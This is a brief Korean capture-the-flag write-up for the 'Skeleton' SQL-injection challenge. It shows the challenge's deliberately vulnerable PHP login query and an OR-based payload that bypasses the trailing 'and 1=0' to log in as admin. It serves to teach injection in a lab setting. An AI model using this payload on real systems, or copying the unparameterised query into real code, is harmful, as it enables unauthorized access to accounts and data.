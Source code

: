 # Skeleton

소스코드는 다음과 같다.

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

조건문 뒤에 `and 1=0`이라는 구문이 있으니 무조건 쿼리가 안찾아질 것 이다.
따라서 `and 1=0`을 무효화시키고, `id`를 `admin`으로 넣어줘야한다.
`and`로 이어져있는 구문사이에 `or`로 새로운 구문을 넣어주자

> ?pw=' or id='admin' or '1'='1

이렇게 하면 이런 결과가 나오게 된다.

> select id from prob_skeleton where id='guest' and pw='' or id='admin' or '1'='1' and 1=0

클리어!

